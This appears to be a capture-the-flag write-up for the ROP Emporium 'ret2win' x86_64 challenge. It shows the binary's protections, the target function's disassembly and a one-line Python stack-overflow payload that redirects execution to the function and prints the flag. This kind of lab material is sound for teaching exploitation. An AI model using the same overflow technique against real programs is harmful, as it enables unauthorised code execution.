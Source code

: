# ROP Emporium - 01 ret2win x86_64

## ELF Binary Info
> $ `rabin2 -I ./ret2win`  
```
arch     x86
baddr    0x400000
binsz    6739
bintype  elf
bits     64
canary   false
class    ELF64
compiler GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0
crypto   false
endian   little
havecode true
intrp    /lib64/ld-linux-x86-64.so.2
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  AMD x86-64 architecture
maxopsz  16
minopsz  1
nx       true
os       linux
pcalign  0
pic      false
relocs   true
relro    partial
rpath    NONE
sanitiz  false
static   false
stripped false
subsys   linux
va       true
```
- canary false
- nx true (i.e. DEP enabled)
- pic false (i.e. not PIE)

## Get Return Address
> $ `rabin2 -z ./ret2win | grep /bin/cat`  
```
8   0x00000943 0x00400943 17  18   .rodata ascii /bin/cat flag.txt
```
> $ `objdump -M intel --disassemble=ret2win ./ret2win`  
```
[...]
0000000000400756 <ret2win>:
  400756:	55                   	push   rbp
  400757:	48 89 e5             	mov    rbp,rsp
  40075a:	bf 26 09 40 00       	mov    edi,0x400926
  40075f:	e8 ec fd ff ff       	call   400550 <puts@plt>
  400764:	bf 43 09 40 00       	mov    edi,0x400943
  400769:	e8 f2 fd ff ff       	call   400560 <system@plt>
  40076e:	90                   	nop
  40076f:	5d                   	pop    rbp
  400770:	c3                   	ret
[...]
```

## Get Flag
> $ `python -c "import sys; sys.stdout.buffer.write(b'A'*40 + b'\x64\x07\x40\x00\x00\x00\x00\x00')" | ./ret2win`  
```
ret2win by ROP Emporium
x86_64

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> Thank you!
ROPE{a_placeholder_32byte_flag!}
```

